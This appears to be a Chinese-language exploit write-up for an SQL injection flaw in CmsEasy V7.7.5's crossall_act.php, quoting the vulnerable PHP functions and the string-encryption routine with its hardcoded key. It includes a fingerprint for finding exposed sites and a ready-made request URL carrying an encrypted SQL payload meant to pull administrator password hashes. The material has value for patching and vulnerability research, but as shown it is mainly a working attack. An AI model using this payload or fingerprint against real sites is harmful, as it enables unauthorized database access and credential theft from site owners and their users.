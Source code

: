 # CmsEasy crossall_act.php SQL注入漏洞

# CmsEasy crossall_act.php SQL注入漏洞

## 漏洞描述

CmsEasy 存在SQL注入漏洞，通过文件 service.php 加密SQL语句执行即可执行任意SQL命令

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](/images/202205181431042.png)

存在漏洞的文件为 `lib/default/crossall_act.php`

![image-20220518143156363](/images/202205181431425.png)

其中需要注意的代码为

```
function execsql_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->rec_query_one($sqlquery);
        echo json_encode($returndata);
        exit;
    }
    function execsqls_action(){
            $sqlquery=front::get("sql");
            $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

            $returndata=tdatabase::getInstance()->rec_query($sqlquery);
            echo json_encode($returndata);
            exit;
        }
    function execupdate_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->query($sqlquery);
        echo json_encode($returndata);
        exit;
    }
```

代码中传入参数 sql， 然后使用方法 unlockString 解码执行 SQL语句

查看文件 `lib/table/service.php`

```
public static function lockString($txt,$key='cmseasy_sql')
    {
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $nh = rand(0,64);
        $ch = $chars[$nh];
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = base64_encode($txt);
        $tmp = '';
        $i=0;$j=0;$k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = ($nh+strpos($chars,$txt[$i])+ord($mdKey[$k++]))%64;
            $tmp .= $chars[$j];
        }
        return urlencode($ch.$tmp);
    }

    /**对字符串进行解密。 crossall_act文件使用
     * @param $txt
     * @param string $key
     * @return bool|string
     */
    public static function unlockString($txt,$key='cmseasy_sql')
    {
        $txt = urldecode($txt);
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $ch = $txt[0];
        $nh = strpos($chars,$ch);
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = substr($txt,1);
        $tmp = '';
        $i=0;$j=0; $k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = strpos($chars,$txt[$i])-$nh - ord($mdKey[$k++]);
            while ($j<0) $j+=64;
            $tmp .= $chars[$j];
        }
        return base64_decode($tmp);
    }
```

文件中得到了 `$key='cmseasy_sql'` 和加解密方法，构造请求获取账号密码md5

![image-20220518143235578](/images/202205181432691.png)

```
/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5
```

![image-20220518143250910](/images/202205181432971.png)

